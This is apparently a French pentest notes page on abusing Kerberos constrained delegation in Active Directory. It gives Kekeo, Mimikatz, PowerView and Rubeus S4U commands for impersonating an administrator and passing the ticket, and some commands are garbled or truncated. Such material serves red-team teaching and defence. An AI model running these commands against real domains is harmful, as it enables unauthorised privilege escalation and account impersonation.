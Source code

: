 
## Qu’est-ce que la délégation Kerberos ?

La délégation Kerberos est un paramètre de délégation qui permet aux applications de demander des informations d’identification d’accès à l’utilisateur final pour accéder aux ressources pour le compte de l’utilisateur d’origine.

Les trois principaux types de délégation que je vais couvrir sont les suivants:
- **Délégation sans contrainte** : tout service peut être utilisé de manière abusive si l’une de ses entrées de délégation est sensible.
- **Délégation contrainte** : les entités contraintes peuvent être abusées si l’une de leurs entrées de délégation est sensible.
- **Délégation contrainte basée sur les ressources (RBCD)** : les entités contraintes basées sur les ressources peuvent être abusées si l’entité elle-même est sensible.

##  Délégation contrainte
La délégation contrainte permet aux administrateurs de configurer les services auxquels un compte utilisateur ou ordinateur peut déléguer et quels protocoles d'authentification peuvent être utilisés

## Exploitation
#### Technique 1
Pour exploiter la délégation contrainte, nous avons besoin de trois choses essentielles :

- Un compte compromis configuré avec une délégation contrainte
- Un compte privilégié cible pour se faire usurper en demandant l'accès au service
- Informations sur la machine hébergeant le service auquel nous aurons accès

Tout d'abord, nous allons voirsi la  délégation contrainte du compte «Admnistrateur» est configurée pour:

```PowerShell
 Get-ADUser Administrateur -Properties msDs-AllowedToDelegateTo | select -ExpandProperty msDs-AllowedToDelegateTo
```

## 
 #### en utilisant Kekeo 
 nous demandons le compte TGT pour le compte
 
```PowerShell
keko # tgt : : ask /user:NameUser /domain:NameDomain /rc4
```

Maintenant que nous avons le TGT, nous exécutons la demande TGS pour le compte que nous voulons imiter pour le service cible que le compte

```PowerShell
keko # tgs : : s4u /tgt:namedufichier.kirbi /user:nom /service:nameservice
```

En revenant à Mimikatz, nous pouvons utiliser Pass the Ticket pour accéder au service

```PowerShell
mimikatz # privilege: : debug
```


#### Technique 2 
Avec Powerview 

```PowerShell
 Get-DomainUser -TrustedToAuth
 Get-DomainComputer -TrustedToAuth
```

```PowerShell
Rubeus.exe s4u /user:appsvc /aes256:aaaaaaaaa /impersonateuser:administrator /msdsspn:servicename /domain:namedomain /ptt
```



https://adsecurity.org/?p=1667